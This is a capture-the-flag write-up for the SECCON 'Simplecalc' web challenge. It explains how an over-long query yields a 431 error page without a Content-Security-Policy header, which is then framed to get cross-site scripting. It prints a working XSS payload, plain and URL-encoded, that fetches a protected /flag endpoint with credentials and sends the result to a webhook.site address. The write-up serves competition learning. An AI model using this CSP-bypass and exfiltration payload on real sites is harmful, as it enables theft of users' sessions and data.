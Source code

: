 # Simplecalc - Web problem - writeup by Vie

> (132 pt)
> author:Arkwarmup
>
>This is a simplest calculator app.
> 
> Note: Don't forget that the target host is localhost from the admin bot.
>
> http://simplecalc.seccon.games:3000
>
> [simplecalc.tar.gz](./simplecalc.tar.gz) 6723d8fd7db93c5c0181845cfadd5048f4fdd267



## Overview

Self-explanatory app - you can submit equations which are processed into a client-side `eval`, your expression of which will appear in an `expr?=` GET query to index the result. 

The source is minimal, so we can focus on the good parts easily: 

```js
app.use((req, res, next) => {
  const js_url = new URL(`http://${req.hostname}:${PORT}/js/index.js`);
  res.header('Content-Security-Policy', `default-src ${js_url} 'unsafe-eval';`);
  next();
});
```

The app applies a CSP to, ostensibly, all locations of the app, with a `default-src` set to `http://simplecalc.seccon.games:3000/js/index/js` (or `localhost` if running locally, or according to the bot) allowing it to `unsafe-eval`.

The 


## Unintended Attack

First and foremost, you can bypass the CSP by forcing a page under the simplecalc/localhost domain by navigating to `http://simplecalc.seccon.games:3000/js/index.js?<extremely_long_sequence_of_charactars_here>` and the length of your GET query will force a status code 431. The content of the page is irrelevant for our purposes, what's relevant is that the 431'd page lacks the CSP header. This is a page under the correct domain but with no CSP, so we can utilize our `fetch` or `xhr` XSS payloads freely. In order to attack this, you open an iframe with its src set to `http://simplecalc.seccon.games:3000/js/index.js?<extremely_long_sequence_of_charactars_here>`, append it to the document, and then when it loads, access its contentWindow to then access the page's `eval`. From there you get a straightforward XSS.


Put this in the `?expr=` query: 


```js
var gib=document.createElement('iframe');gib.src="http://localhost:3000/js/index.js?"+"a".repeat(0x5000);document.body.appendChild(gib);gib.onload=function(){gib.contentWindow.eval('x=new XMLHttpRequest;x.onload=function(){t=this.responseText;y=new XMLHttpRequest;y.open("GET","http://webhook.site/1ec04c0d-14c5-41d9-80cd-dba3875c48d1?"+t);y.send();};x.open("GET","http://localhost:3000/flag");x.setRequestHeader("X-FLAG","ok");x.withCredentials=true;x.send();')}

```

And submit the calculated result to the admin:

```
http://simplecalc.seccon.games:3000?expr=var%20gib%3Ddocument.createElement%28%27iframe%27%29%3Bgib.src%3D%22http%3A%2F%2Flocalhost%3A3000%2Fjs%2Findex.js%3F%22%2B%22a%22.repeat%280x5000%29%3Bdocument.body.appendChild%28gib%29%3Bgib.onload%3Dfunction%28%29%7Bgib.contentWindow.eval%28%27x%3Dnew%20XMLHttpRequest%3Bx.onload%3Dfunction%28%29%7Bt%3Dthis.responseText%3By%3Dnew%20XMLHttpRequest%3By.open%28%22GET%22%2C%22http%3A%2F%2Fwebhook.site%2F1ec04c0d-14c5-41d9-80cd-dba3875c48d1%3F%22%2Bt%29%3By.send%28%29%3B%7D%3Bx.open%28%22GET%22%2C%22http%3A%2F%2Flocalhost%3A3000%2Fflag%22%29%3Bx.setRequestHeader%28%22X-FLAG%22%2C%22ok%22%29%3Bx.withCredentials%3Dtrue%3Bx.send%28%29%3B%27%29%7D
```

And wait for flag: `SECCON{service_worker_is_powerfull_49a3b7bf6d2ae18d}` _Oh_, service workers, huh. My unintended soln was pretty fun to do too though. :>